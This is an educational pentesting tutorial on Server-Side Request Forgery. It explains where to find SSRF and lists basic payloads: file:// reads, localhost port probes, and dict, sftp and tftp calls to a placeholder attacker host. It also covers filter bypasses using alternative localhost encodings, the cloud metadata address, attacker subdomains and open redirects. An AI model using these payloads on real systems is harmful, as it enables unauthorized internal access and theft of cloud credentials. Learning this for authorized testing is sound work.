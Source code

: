 # SSRF

**SSRF** stands for **Server-Side Request Forgery**. It's a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.

There are **two types** of SSRF vulnerability; the first is a **regular SSRF** where **data is returned to the attacker's screen**. The second is a **Blind SSRF** vulnerability where an SSRF occurs, but **no information is returned to the attacker's screen**.

## Finding an SSRF

Potential SSRF vulnerabilities can be spotted in web applications in many different ways. Here is an example of four common places to look:

* When a **full URL** is used in a parameter in the address bar:

<figure><img src="../../../../.gitbook/assets/956e1914b116cbc9e564e3bb3d9ab50a.png" alt=""><figcaption></figcaption></figure>

*   A **hidden field** in a form:\


    <figure><img src="../../../../.gitbook/assets/237696fc8e405d25d4fc7bbcc67919f0.png" alt=""><figcaption></figcaption></figure>
*   A **partial URL** such as just the hostname:\


    <figure><img src="../../../../.gitbook/assets/f3c387849e91a4f15a7b59ff7324be75 (1).png" alt=""><figcaption></figcaption></figure>
*   Or **perhaps only the path of the URL**:\


    <figure><img src="../../../../.gitbook/assets/3fd583950617f7a3713a107fcb4cfa49.png" alt=""><figcaption></figcaption></figure>

If working with a blind SSRF where no output is reflected back to you, you'll need to use an external HTTP logging tool to monitor requests such as [https://webhook.site/](https://webhook.site/).



## Testing SSRF

Testers need to find input vectors and fields that could be used for publishing or importing data from a URL (e.g. `GET` and `POST` parameters).

To do this, we have to **navigate through the website** with the **Burp Proxy** activeted, and then we have to analyze the request to **find a possibile vulnerable parameter**.&#x20;

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

With `http://some.website/index.php?url=https://someother.website/index.php`, and `url` being the vulnerable parameter, the following basic payloads can help a tester fetch content of files, scan ports, access filtered resources and so on.

```
file://PATH/TO/FILE
http://127.0.0.1:80/admin
http://127.0.0.1:80
http://127.0.0.1:22
ldap://127.0.0.1:389/%0astats%0aquit
dict://{attacker_url}:11111/
sftp://{attacker_url}:11111/
tftp://{attacker_url}:12346/TESTUDPPACKET
```

To scan for a specific range of private IP addresses (other than `localhost`), Use burp suite intruder that can fetch all of IP addresses in the internal network that is targeted.



## Bypassing Filter

In order to conduct SSRF attacks properly, there may be use cases where filters need to be bypassed

### Blacklist input filter

Some applications block input containing hostnames like `127.0.0.1` and `localhost`, or sensitive URLs like `/admin`. In this situation, you can bypass the filter using various techniques :

* Using an alternative IP representation such as :

```
http://127.1
http://0
http:@0/
http://0.0.0.0:80
http://[::]:80/
http://[0000::1]:80/
http://2130706433 # Decimal version of localhost
http://0x7f000001/ # Hexadecimal version of localhost
```

* Obfuscating string using URL encoded, even double URL encoded sometimes.
* Registered your own domain name that resolved the `localhost` IP address.



## Utils ex.

### \&x= to ignore

If we can insert other domain into a parameter but there is the next part of the URL that we have to ignore we can use  `&x=` at the start of ignore part

```bash
# start URL
https://website.thm/item/2?server=api

# the server par replaces the SUBDOMAIN of the URL. 
# We can add in this par all other URL for the request and then tell to request to 
# ignore the next part with &x= symbol
# Requesto to send
https://website.thm/item/2?server=server.website.thm/flag?id=9&x=

# effective request forgery which will be send 
https://server.website.thm/flag?id=9&x=.website.thm/api/item?id=2
```



## Defeating Common SSRF Defenses

More security-savvy developers aware of the risks of SSRF vulnerabilities may implement checks in their applications to make sure the requested resource meets specific rules. There are usually two approaches to this, either a **deny list** or an **allow list**.

#### Deny List

A Web Application may employ a deny list **to protect sensitive endpoints, IP addresses or domains** from being accessed by the public while still allowing access to other locations. \
A specific endpoint to restrict access is the **localhost**, which may contain server performance data or further sensitive information, so domain names such as `localhost` and `127.0.0.1` would appear on a deny list.\
**Attackers can bypass** a Deny List by using alternative localhost references such as 0, 0.0.0.0, 0000, 127.1, 127.\*.\*.\*, 2130706433, 017700000001 or subdomains that have a DNS record which resolves to the IP Address 127.0.0.1 such as 127.0.0.1.nip.io.

Also, in a **cloud environment**, it would be beneficial to block access to the IP address `169.254.169.254`, which contains metadata for the deployed cloud server, including possibly sensitive information. An **attacker can bypass this** by registering a subdomain on their own domain with a DNS record that points to the IP Address 169.254.169.254.

#### Allow List

An allow list is where all requests get denied unless they appear on a list or match a particular pattern, such as a rule that an URL used in a parameter must begin with **https://website.com.** An **attacker could quickly circumvent this rule** by **creating a subdomain on an attacker's domain name**, such as `https://website.com.attackers-domain.com`. The application logic would now allow this input and let an attacker control the internal HTTP request.



#### Open Redirect

If the above bypasses do not work, there is one more trick up the attacker's sleeve, the open redirect. \
An open redirect is an endpoint on the server where the website visitor gets automatically redirected to another website address. Take, for example, the link `https://website.com/link?url=https://linkedin.com`. This endpoint was created to record the number of times visitors have clicked on this link for advertising/marketing purposes. \
But imagine there was a potential SSRF vulnerability with stringent rules which only allowed URLs beginning with https://website.com/. An attacker could utilise the above feature to redirect the internal HTTP request to a domain of the attacker's choice.



## Resources

{% embed url="https://www.thehacker.recipes/web/inputs/ssrf/" %}
